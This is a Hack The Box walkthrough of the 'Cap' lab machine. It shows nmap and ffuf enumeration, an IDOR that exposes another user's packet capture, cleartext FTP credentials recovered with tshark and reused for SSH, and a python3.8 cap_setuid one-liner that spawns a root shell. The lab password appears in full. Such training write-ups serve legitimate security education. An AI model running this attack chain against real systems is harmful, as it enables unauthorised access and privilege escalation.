

# Cap

# Context

Lab link: [https://app.hackthebox.com/machines/Cap](https://app.hackthebox.com/machines/Cap)

Suggested tools: `nmap`, `curl`, `ffuf`, `tshark`, `wireshark`, `ssh`, `getcap`, `python3`

# Scenario

Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root.

# Questions

Q1- How many TCP ports are open?

Answer: 3

Reason: A full-port `nmap -sC -sV -p-` scan against `cap.htb` (`10.129.118.201`) identified three open TCP ports: `21` (FTP), `22` (SSH), and `80` (HTTP).

```bash
$ nmap -sC -sV -p- cap.htb -vv      
Scanning cap.htb (10.129.118.201) [65535 ports]
Discovered open port 22/tcp on 10.129.118.201
Discovered open port 80/tcp on 10.129.118.201
Discovered open port 21/tcp on 10.129.118.201
Completed Service scan at 20:39, 6.13s elapsed (3 services on 1 host)
```

Q2- After running a "Security Snapshot", the browser is redirected to a path of the format `/[something]/[id]`, where `[id]` represents the id number of the scan. What is the `[something]`?

Answer: `data`

Reason: The `/capture` endpoint on `http://cap.htb` returns a `302` redirect to `/data/1`, confirming `data` as the path segment preceding the scan ID. The dashboard shown at `http://cap.htb/data/1` (logged in as `Nathan`) displays packet statistics for that scan, with a `Download` option for the raw capture.

```bash
$ curl -isk http://cap.htb/capture
HTTP/1.1 302 FOUND
Server: gunicorn
Date: Thu, 29 Oct 2026 00:45:02 GMT
Connection: keep-alive
Content-Type: text/html; charset=utf-8
Content-Length: 220
Location: http://cap.htb/data/1

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/data/1">/data/1</a>. If not click the link.    
```



Q3- Are you able to get to other users' scans?

Answer: Yes

Reason: `ffuf` against `/data/FUZZ` (range 0-100) found scan ID `0` returns `200 OK` in addition to `1`, confirming no per-user ownership check on the `/data/<id>` endpoint. The IDOR allows viewing `admin`'s earlier capture at `/data/0`, which only `Nathan` created `1`.

```bash
$ ffuf -u http://cap.htb/data/FUZZ -w <(seq 0 100) -mc 200 -c

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://cap.htb/data/FUZZ
 :: Wordlist         : FUZZ: /proc/self/fd/11
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

1                       [Status: 200, Size: 17144, Words: 7066, Lines: 371, Duration: 39ms]
0                       [Status: 200, Size: 17147, Words: 7066, Lines: 371, Duration: 62ms]
:: Progress: [101/101] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::

$ curl -isk http://cap.htb/data/0                            
HTTP/1.1 200 OK
Server: gunicorn
Date: Thu, 29 Oct 2026 00:57:57 GMT
Connection: keep-alive
Content-Type: text/html; charset=utf-8
Content-Length: 17147

            <div class="main-content-inner">

                        <div class="table-responsive">
                        <table class="dbkit-table" style="margin-left: auto; margin-right: auto;">
                                <thead>
                                        <tr>
                                                <th scope="col">Data Type</th>
                                                <th scope="col">Value</th>                
                                        </tr>
                                </thead>
                                <tbody>

                                        <tr>
                                                <td>Number of Packets</td>
                                                <td>72</td>
                                        </tr>

                                        <tr>
                                                <td>Number of IP Packets</td>
                                                <td>69</td>
                                        </tr>

                                        <tr>
                                                <td>Number of TCP Packets</td>
                                                <td>69</td>
                                        </tr>

                                        <tr>
                                                <td>Number of UDP Packets</td>
                                                <td>0</td>
                                        </tr>

                                </tbody>
                        </table>
                        </div>
```

Q4- What is the ID of the PCAP file that contains sensative data?

Answer: `0`

Reason: Scan `0` is accessible via the IDOR on `/data/<id>` with no ownership check, and its corresponding file at `/download/0` is `0.pcap` (`Content-Type: application/vnd.tcpdump.pcap`, `9935` bytes, dated `2021-05-15`) — the earliest capture on the system, predating `Nathan`'s own scan `1`.

Q5- Which application layer protocol in the pcap file can the sensitive data be found in?

Answer: FTP

Reason: Filtering `0.pcap` on `ftp` reveals the full authentication handshake in cleartext: `USER nathan` followed by `PASS Buck3tH4TF0RM3!`, confirmed by a `230 Login successful` response from the `vsFTPd 3.0.3` server. FTP transmits credentials unencrypted, so capturing this traffic exposed `nathan`'s password directly.

```bash
$ curl -sI http://cap.htb/download/0
HTTP/1.1 200 OK
Server: gunicorn
Date: Thu, 29 Oct 2026 01:02:42 GMT
Connection: keep-alive
Content-Disposition: attachment; filename=0.pcap
Content-Type: application/vnd.tcpdump.pcap
Content-Length: 9935
Last-Modified: Sat, 15 May 2021 19:53:54 GMT
Cache-Control: no-cache

$ curl -s http://cap.htb/download/0 -o 0.pcap

$ file 0.pcap 
0.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Linux cooked v1, capture length 262144)

$ tshark -r 0.pcap ftp                     
   34   2.626895 192.168.196.16 → 192.168.196.1 FTP 76 Response: 220 (vsFTPd 3.0.3)
   36   4.126500 192.168.196.1 → 192.168.196.16 FTP 69 Request: USER nathan
   38   4.126630 192.168.196.16 → 192.168.196.1 FTP 90 Response: 331 Please specify the password.
   40   5.424998 192.168.196.1 → 192.168.196.16 FTP 78 Request: PASS Buck3tH4TF0RM3!
   42   5.432387 192.168.196.16 → 192.168.196.1 FTP 79 Response: 230 Login successful.
[...]
   68  31.127652 192.168.196.16 → 192.168.196.1 FTP 70 Response: 221 Goodbye.
```

Q6- We've managed to collect Nathan's FTP password. On what other service does this password work?

Answer: SSH

Reason: Credential reuse: the password `Buck3tH4TF0RM3!` captured from FTP works for SSH login as `nathan`, confirmed by `uid=1001(nathan) gid=1001(nathan)`. This is the foothold shell on the box.

```bash
$ ssh nathan@cap.htb                                                                                          

Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

  => There is 1 zombie process.

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```

Q7- User flag: [REDACTED]

Q8- What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?

Answer: `/usr/bin/python3.8`

Reason: `getcap -r / 2>/dev/null` revealed `/usr/bin/python3.8` with `cap_setuid,cap_net_bind_service+eip`. The `cap_setuid` capability lets the binary call `os.setuid(0)` without root, elevating the running process's UID directly.

```bash
$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

$ python3.8 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

Q9- Root flag: [REDACTED]

## Linux Privilege Escalation via Capabilities

Normally a program only gets the permissions of the user running it. Linux "capabilities" are a way to hand a program a specific slice of root's power — like the ability to bind to a low network port, or read any file — without making it fully root (via SUID). The problem: if a capability is applied to a binary that can also run arbitrary commands or read/write files, that sliver of root power is often enough to become root outright.

`getcap -r /` recursively scans the filesystem and lists every binary with capabilities set, along with which capabilities and in what mode (`ep` = effective+permitted, the ones that matter). It's a direct, authoritative check — not a heuristic — so when a box's description already points at capabilities, this is faster and cleaner than pulling in a full enumeration script like LinPEAS, which runs this same check as one of dozens.

Once a capability-bound binary turns up, the binary name plus capability is the lookup key — GTFOBins maintains a dedicated "Capabilities" section per binary, listing the exact abuse command for that specific cap. Not every capability is exploitable: `cap_setuid+ep` on an interpreter like `python3` or `perl` is the classic clean win (spawn a shell, `setuid(0)` first), but something like `cap_net_bind_service` is functionally useless for privilege escalation, and `cap_dac_read_search` only grants arbitrary file read rather than code execution. So the workflow is: enumerate → match binary+cap against GTFOBins → confirm the capability actually set is the one GTFOBins requires, not just that the binary appears on the list.

This method is scoped to the Capabilities vector only — it won't surface SUID binaries, sudo misconfigurations, or other privilege escalation paths, which require their own discovery commands (`find / -perm -4000`, `sudo -l`, etc.) and are independent of whether any capabilities are set.

| Step | Command |
| --- | --- |
| Enumerate capability-bound binaries | `getcap -r / 2>/dev/null` |
| Cross-reference | GTFOBins → binary name → "Capabilities" section |
| Confirm | Matched capability (e.g. `cap_setuid`) equals what GTFOBins lists as required |

# Attack Chain

| Stage | Detail | MITRE |
| --- | --- | --- |
| Reconnaissance | nmap -sC -sV -p- against cap.htb (`10.129.118.201`) found ports 21 (FTP), 22 (SSH), 80 (HTTP) | T1595 |
| Discovery | "Security Snapshot" feature on web app redirects to `/data/<id>`, revealing predictable numeric ID scheme | T1595.002 |
| Initial Access (IDOR) | ffuf against `/data/FUZZ` found `/data/0` returns 200 OK with no ownership check, exposing another user's earlier capture | T1190 |
| Credential Access | Downloaded `/download/0` as 0.pcap; tshark filter on ftp revealed cleartext USER nathan / PASS Buck3tH4TF0RM3! | T1040 |
| Lateral Movement / Initial Access | Reused FTP password for SSH login as nathan, obtaining foothold shell | T1078 |
| Discovery | getcap -r / 2>`/dev/null` found `/usr/bin/python3.8` with cap_setuid,cap_net_bind_service+eip | T1069 |
| Privilege Escalation | python3.8 -c 'import os; os.setuid(0); os.execl("`/bin/sh`", "sh")' abused cap_setuid to spawn a root shell | T1548 |

## Attack Tree

```bash
HTB Cap (10.129.118.201)
│
├── 80 -- Flask web app, "Security Snapshot" feature
│   └── /data/<id> IDOR (no ownership check)
│       └── /data/0 -- admin's earlier capture
│           └── /download/0 -- 0.pcap
│               └── cleartext FTP creds in pcap (nathan:Buck3tH4TF0RM3!)
│                   └── SSH login as nathan
│                       │
│                       ├── /home/nathan/user.txt
│                       │   └── [USER FLAG]
│                       │
│                       └── getcap -r / -- /usr/bin/python3.8 cap_setuid+eip
│                           └── python3.8 -c 'os.setuid(0); os.execl("/bin/sh","sh")'
│                               └── [ROOT FLAG]
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Discovery | Target | cap.htb (`10.129.118.201`) |
|  | Open ports | 21/tcp, 22/tcp, 80/tcp |
| Delivery / Access | Vulnerable endpoint | `/data/<id>` (IDOR, no ownership check) |
|  | Download endpoint | `/download/<id>` |
| Dropped File | PCAP filename | `0.pcap` |
|  | Content-Type | application/vnd.tcpdump.pcap |
| Credential Access | FTP credentials | nathan : Buck3tH4TF0RM3! |
|  | FTP server | vsFTPd 3.0.3 |
| Privilege Escalation | Capability-bearing binary | `/usr/bin/python3.8` |
|  | Capability set | cap_setuid,cap_net_bind_service+eip |
| Flags | User flag | [REDACTED] |
|  | Root flag | [REDACTED] |

# Lab Insights

1. Insecure Direct Object Reference vulnerabilities are rarely limited to information disclosure of "just another user's record" — the real danger is that any sequentially-indexed resource becomes a full enumeration surface the moment authorization checks are scoped to authentication rather than ownership. Here, the absence of a per-user check on /data/<id> let an unprivileged account pivot straight into an administrator's prior network capture simply by decrementing an integer. (T1190)
2. Capturing or storing credentials over an unencrypted protocol is equivalent to writing them in plaintext on a shared drive — the transport layer's lack of confidentiality means any party who can later read the traffic (via a legitimate network-monitoring feature, in this case) recovers the credential with zero cracking effort. The FTP session captured here handed over nathan's password in cleartext during a routine login. (T1040)
3. Linux capabilities are a finer-grained alternative to SUID bits, but a single overlooked assignment like cap_setuid on a general-purpose interpreter (python3.8) reintroduces the exact same risk class as a SUID shell — any process holding cap_setuid can escalate its own UID to root with a one-line call, regardless of how the capability was originally intended to be used. (T1548.001)